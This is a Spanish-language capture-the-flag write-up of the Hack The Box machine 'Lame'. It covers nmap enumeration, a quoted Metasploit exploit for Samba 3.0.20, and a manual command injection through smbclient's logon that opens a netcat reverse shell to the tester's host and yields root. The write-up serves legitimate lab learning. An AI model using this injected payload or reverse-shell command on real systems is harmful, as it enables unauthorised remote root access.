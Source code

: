 ```yaml
---
title: Lame HTB Write-up
categories: [Write up, Hack The Box]
tags: [Enumeration, Exploit, Linux, Easy]
pin: false
math: true
mermaid: true
---
```



<img src="/imagenes/Lame/Lame_banner.png"  width="550" height="250">


## Resumen

Saludos, en esta oportunidad vamos a resolver la máquina de **Hack The Box** llamada **Lame**, la cual tiene una dificultad easy. Para lograr vulnerarla realizaremos lo siguiente:

*   **Enumeración del sistema.**
*   **Explotación de samba 3.0.20.**

## Reconocimiento y Enumeración

En primer lugar, se comprueba la correcta conexión en la VPN con la máquina utilizando `ping`:

```
ping -c 1 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=143 ms
```
Se observa que existe una correcta conexión con la máquina.

Para realizar un reconocimiento activo se utilizará la herramienta `nmap`, en búsqueda de puertos abiertos en todo el rango (65535) y aplicando el parámetro `-sS` el cual permite aumentar el rendimiento del escaneo, haciendo que las conexiones no se realicen totalmente (haciendo solo syn  syn-ack):

```
sudo nmap -p- -sS --open -min-rate 5000 -Pn 10.10.10.103 -oG Port
```
Al finalizar el escaneo, se pueden observar los puertos abiertos de la máquina víctima: 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Vamos a realizar un escanéo de servicios:

```
sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN ServiceScan
```

Como resultado del escaneo tenemos:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-02-17T19:26:51-05:00
|_clock-skew: mean: 2h30m10s, deviation: 3h32m08s, median: 9s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```



## Explotación

Si vamos revisando las versiones, vemos el samba 3.0.20, si lo buscamos en searchsploit:
```
searchsploit samba 3.0.20
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                 | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                            | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                    | linux_x86/dos/36741.py

```

Encontramos algunos exploits, vamos a abrir el **unix/remote/16320.rb**:



```ruby
        def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end

```

Si analizamos la función tenemos que ingresar en username **"/=\`nohup " + payload.encoded + "`"** vamos a intentarlo manual.

Utilizamos `smbmap` para identificar a que recursos tenemos acceso:
```
smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Entramos con `smbclient`:
```
smbclient //10.10.10.3/tmp -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb:
```
Si usamos el comando help podemos ver todo lo que podemos utilizar, según el exploit necesitamos un campo de username, y el único que lo tiene en el logon, por lo tanto, intentamos generar una conexión reversa hacia nuestra máquina utilizando `netcat`:

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.17 1234`"
Password: 
```

Si vemos nuestro `netcat`:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.3] 50387
whoami
root
```
Ahora buscamos la flag:

```
cat root.txt
20814bf60da255921f3718003536cdac
```

!Listo! 

Hemos vulnerado completamente la máquina.

Nos vemos, hasta la próxima.

